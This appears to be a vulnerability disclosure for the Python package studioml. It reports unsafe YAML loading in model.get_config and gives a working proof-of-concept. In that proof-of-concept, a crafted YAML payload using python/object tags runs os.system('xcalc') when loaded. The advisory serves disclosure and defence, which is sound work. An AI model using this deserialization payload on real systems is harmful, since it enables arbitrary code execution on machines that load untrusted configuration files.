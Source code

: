 # Description

`studioml` is simplify and expedite model building process which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install studioml
```

### Run exploit.py
```
import os
#os.system('pip3 install studioml')
from studio import model
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
model.get_config('pwn.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
